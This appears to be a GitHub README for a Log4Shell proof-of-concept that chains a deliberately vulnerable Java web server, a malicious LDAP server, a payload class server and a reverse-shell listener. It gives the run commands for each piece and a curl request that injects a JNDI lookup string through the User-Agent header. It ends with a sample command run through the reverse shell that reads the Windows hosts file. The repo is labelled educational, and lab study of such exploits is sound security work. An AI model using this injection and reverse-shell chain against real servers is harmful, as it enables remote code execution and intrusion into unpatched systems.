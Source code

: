 # log4Shell
log4Shell vulnerability RCE sample via reverse shell

**NOTE**

This repo is only for educational purposes only

---


## Run victim web server (app)
```
gradlew build
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build\libs\app-0.0.1.jar
```

## Run attacker malicious ldap server (ldap)
```
gradlew build
java -jar build\libs\ldap-1.0.0.jar http://localhost:8081/#Payload 636
```

## Run attacker java class payload server (payload)
```
gradlew build
java -jar build\libs\payload-1.0.0.jar
```

## Run attacker reverse shell server (rce)
```
gradlew build
java -jar build\libs\rce-1.0.0.jar

```

## Executing the attack
```
curl http://localhost:8080/ -H 'User-Agent:${jndi:ldap://0.0.0.0:636/a}'
```

## Sample command in reverse shell
```
cmd /C more c:\windows\system32\drivers\etc\hosts
```




### More info
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java

